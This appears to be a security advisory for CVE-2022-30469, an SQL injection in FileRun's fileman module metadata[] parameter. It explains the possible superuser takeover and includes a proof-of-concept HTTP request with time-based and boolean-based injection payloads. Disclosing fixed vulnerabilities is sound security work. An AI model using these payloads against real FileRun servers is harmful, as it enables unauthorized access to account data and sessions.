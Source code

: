 # CVE-2022-30469 - SQL-Injection (Afian Filerun)

**CVE-ID:** CVE-2022-30469

**Affected Product:** Filerun

**Affected Versions:** Update 20220202 (others untested)

**Vulnerability:** SQL-Injection

**Vendor URL:** [https://filerun.com/](https://filerun.com/)

**Status:** Fixed in FileRun Update 20220519 (silently)

**Severity:** High


## Description
With a normal user account, an attacker can inject custom SQL statements into the `metadata[]` parameter of the `fileman` module.

This allows access to user account data, filerun settings and session information.
The impact of the complete exploit chain depends on the filerun setup.
If the session information is not stored in files but in the "session" table, you can easily takeover the superuser account.
If the SMTP settings match the email account of the super user, you may reset its password and fetch the reset mail.


## Proof of Concept
```
POST /?module=fileman&section=get&page=grid HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 68
Origin: http://localhost
Connection: close
Referer: http://localhost/
Cookie: FileRunSID=c82f680f8892c8f5655923e2b5c4d6dc

metadata%5B%5D=13881157SQLiMe&path=%2FROOT%2FHOME
```

Payload used Timebased:
```
metadata%5b%5d=13881157')%20AND%20(SELECT%207003%20FROM%20(SELECT(SLEEP(5)))AGYO)%20AND%20('ltyE'='ltyE&path=%2fROOT%2FHOME
```

Payload used Boolean based:
```
metadata[]=13881157')+OR+NOT+('1111'='1111&path=/ROOT/HOME
```

The SQL-Statement where we inject:

```
SELECT * FROM df_modules_metadata_values WHERE ((file_id = '13') AND (field_id IN ('13881157') OR NOT '1111'='1111'))) ORDER BY id DESC
```
